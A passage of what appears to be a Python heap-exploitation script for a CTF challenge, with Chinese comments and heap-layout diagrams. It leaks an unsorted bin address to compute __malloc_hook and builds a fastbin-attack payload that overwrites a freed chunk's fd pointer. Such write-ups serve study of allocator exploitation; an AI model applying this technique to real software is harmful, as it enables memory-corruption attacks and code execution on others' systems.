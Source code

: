 ```assembly
    30 [0x91][0x91]
    40 [0x91][0x91]   2
    50 [    ][    ]
    60 [    ][    ]
    70 [0x31][0x31]
    80 [    ][0x51]   3
    90 [    ][    ]
    A0 [    ][    ]
    B0 [    ][    ]
    C0 [    ][    ]
    D0 [    ][0x71]   4
    E0 [    ][    ]
    F0 [    ][    ]
    100[    ][    ]
    110[    ][    ]
    120[    ][    ]
    130[    ][    ]
    Top chunk
    '''

free(2)
dump(1)
    '''
    00 [    ][0x21]   0
    10 [0x51][0x51]
    20 [    ][0x51]   1
    30 [0x91][0x91]
    40 [0x91][0x91]   2  *
    50 [ fd ][ bk ]      *
    60 [    ][    ]      *
    70 [0x31][0x31]      *
    80 [    ][0x51]   3  *
    90 [    ][    ]      *
    A0 [    ][    ]      *
    B0 [    ][    ]      *
    C0 [    ][    ]      *
    D0 [    ][0x71]   4
    E0 [    ][    ]
    F0 [    ][    ]
    100[    ][    ]
    110[    ][    ]
    120[    ][    ]
    130[    ][    ]
    Top chunk
    '''
# 当释放较小或较大的chunk的时候，
# 如果系统没有将它们添加到对应的bins中，系统就将这些chunk添加到unsorted bin中
# usortbin只有一个bin，它的fd和bk指针会指向同一个地址——unsorted bin链表的头部。

io.recvline()
io.recv(8*4)
unsortedbin = u64(io.recv(6).ljust(8, "\0"))
print(unsortedbin)
mallock_hook = unsortedbin - 0x58 - 0x10
# unsorted bin链表头部地址为main_arena + 0x58
# __malloc_hook地址为main_arena - 0x10

free(4)
payload = p64(0)*9 + p64(0x71) + p64(mallock_hook-0x23)
fill(3, payload)
    '''
    00 [      ][0x21]   0
    10 [ 0x51 ][0x51]
```